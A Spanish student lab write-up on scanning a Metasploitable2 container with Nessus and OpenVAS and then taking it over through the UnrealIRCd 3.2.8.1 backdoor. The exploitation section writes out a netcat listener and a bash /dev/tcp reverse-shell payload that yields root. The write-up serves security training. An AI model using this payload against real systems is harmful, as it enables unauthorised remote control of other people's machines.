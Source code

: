# Escaneo de vulnerabilidades

Como ya aseguramos nuestro servidor en las anteriores actividades de este proyecto, ni Nessus ni OpenVAS detectan vulnerabilidades. Simplemente nos informan de que los certificados utilzados en nuestro servicio web son autofirmados. 

Así que procederemos a la deteccción y explotación de vulnerabilidades directamente en Metasploitable2. A continuación se muestran imágenes del escaneo a este contenedor, para ello simplemente hicimos un `docker run "metasploitable2"` definiendo la red de docker en la que queriamos que se crease con un `--network` para que tanto Nessus como OpenVAS pudiesen contactar con el servidor vulnerable.

![nessus](img/1.png)
![openvas](img/2.png)

Los resultados son catastróficos como era de esperar, se detectan con nessus un total de 65 vulnerabilidades. Uno de ellos es el password de VNC, "password", es decir demasiado fácil. Sin embargo explotarlos a través de docker puede ser un poco complicado, lo suyo sería tener la máquina virtual a la que hace referencia esta [guía de explotación](https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/), [enlace a la MV](https://sourceforge.net/projects/metasploitable/).

Podemos adueñarnos del sistema de practicamente de cualquier forma, desde usuarios privilegiados de las bases de datos hasta con formularios web php.
A continuación realizaremos una pequeña demostración de la toma de esta máquina a través de un servicio IRC expuesto.

## Reconocimiento

![nmap](img/3.png)

## Explotación de la vulnerabilidad

Utilizando el exploit de [UnrealIRCd 3.2.8.1](https://www.exploit-db.com/exploits/16922), por elegir alguno. Que básicamente consiste en, abrir una reverse shell `nc -lvp 8080`, establecer una conexión y enviarle un "*AB;* `bash -i >& /dev/tcp/10.0.0.22/8080 0>&1` *\n*". 

Boom! root.

![metasploit](img/4.png)